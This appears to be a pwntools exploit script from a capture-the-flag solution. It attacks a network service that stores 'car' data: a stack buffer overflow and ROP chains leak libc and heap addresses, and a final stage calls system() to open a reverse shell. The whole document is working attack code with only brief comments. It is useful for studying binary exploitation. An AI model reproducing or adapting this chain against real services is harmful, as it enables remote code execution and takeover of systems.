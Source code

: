 ```py

# This will run: write(client_fd, (*$rbp)-0x8, car->trackLength)
rop.raw(p64(0x0000000000401541))

# We set RBP to 0x400800+0x8 that has a pointer to the setsockopt got entry
target_rbp = 0x400800 + 0x8

# The payload will run write(1, setsockopt@got, len(payload))
payload = b'A'*48 + p64(target_rbp) + rop.chain()


io1 = getremote(16)  # This remote has a small stack
io2 = getremote(payload)

io1.sendlineafter(b'>', b'')  # This will trigger the bug

io1.recvline()  # Garbage

setsockopt_addr = u64(io1.recv(8))  # The result of the write
libc.address = setsockopt_addr - libc.symbols.setsockopt

log.success(f'Libc @ {hex(libc.address)}')

# -- Dump car

log.info("Dumping car")

rop = ROP([elf, libc])

# Seems to always be fd 4 on io1
rop.call(libc.symbols.write, [4, elf.symbols.car, 8])

io1 = getremote(16)
io2 = getremote(b'A'*56 + rop.chain())

io1.sendlineafter(b'>', b'')

io1.recvline()  # Garbage

car_addr = u64(io1.recv(8))
log.success(f'car @ {hex(car_addr)}')

# -- Revshell

log.info("Opening revshell")

# system(car+0x4+0x8) -> revshell
io1 = getremote(16)

libc_rop = ROP(libc)

# Align stack to 16 bytes for movaps instruction
libc_rop.raw(libc_rop.ret)

libc_rop.call(libc.symbols.system, [car_addr+0x4+0x8])

io2 = getremote(b'A'*56 + libc_rop.chain())

io1.sendlineafter(b'>', b'')
```
